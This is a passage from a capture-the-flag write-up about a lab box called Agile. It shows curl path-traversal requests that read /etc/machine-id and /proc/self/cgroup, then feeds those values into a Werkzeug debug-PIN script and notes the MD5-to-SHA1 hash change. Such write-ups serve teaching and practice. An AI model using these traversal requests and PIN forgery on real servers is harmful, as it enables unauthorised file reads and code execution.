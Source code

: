 The next item is a combination of a couple files. First, I need `/etc/machine-id`:

```

oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../etc/machine-id -s --path-as-is -b $cookie
ed5b159560f54721827644bc9b220d00

```

I’ll also need the first line of `/proc/self/cgroup`, from the last “/” to the end:

```

oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../proc/self/cgroup -s --path-as-is -b $cookie
0::/system.slice/superpass.service

```

I only need the “superpass.service” part.

Putting that all together updates the script to:

```

private_bits = [
    '345052367029',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
]

```

#### Hash Algorithm

I’ll run this and it outputs a pin:

```

oxdf@hacky$ python agile.py 
276-150-242

```

But it doesn’t work:

![image-20230728170845041](/img/image-20230728170845041.png)

One possible issue has to do with the hash algorithm in use. Werkzurg updated their code from MD5 to SHA1 a while ago. At the time of Agile’s release, there was a note on the Hacktricks page:

> If you are on a new version of Werkzeug, try changing the hashing algorithm to sha1 instead of md5.

By the time Agile is retiring, the script is just updated to use SHA1. To verify this, I’ll pull the file from Agile and confirm it’s using SHA1 (not MD5):

![image-20230124141825362](/img/image-20230124141825362.png)
